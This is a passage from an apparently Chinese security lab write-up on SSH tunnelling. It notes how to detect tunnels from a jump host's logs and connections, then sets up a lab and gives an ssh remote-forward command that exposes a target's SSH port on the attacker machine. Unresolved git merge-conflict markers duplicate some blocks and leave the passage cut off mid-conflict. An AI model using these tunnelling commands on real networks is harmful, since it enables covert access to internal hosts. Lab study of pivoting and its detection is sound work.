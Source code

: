 综上是容易找到异常的地方主要还是跳板机 (192.168.174.1/192.168.44.1) 的 ssh 日志 (不明 ip 连接)、网络连接 (监听转发式的连接)、流量 (不明 ip 和 mstshash)，在没有流量的情况下发现隧道还是蛮难的。

### Linux 下环境搭建

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
攻击机：Ubuntu22.04 | 192.168.174.128
跳板机：ubuntu20.04 | 192.168.44.130/192.168.174.129
目标机：kali | 192.168.44.129
```

设置个远程转发

<<<<<<< HEAD
```plain
ssh -CfNg -R 2333(攻击机端口):192.168.44.129(目标机 ip):22(目标端口) hackme@192.168.174.128(攻击机)
```

[![](assets/1710900874-53f574fe21afae082641221ffad30564.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151120-e79cd336-d79a-1.png)

攻击机执行：

```plain
ssh hackme@127.0.0.1 -p 2333
```

[![](assets/1710900874-b1b5b90569affc6c6b72681932ce4800.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301151133-ef92c49c-d79a-1.png)
=======
```bash
ssh -CfNg -R 2333(攻击机端口):192.168.44.129(目标机 ip):22(目标端口) hackme@192.168.174.128(攻击机)
```
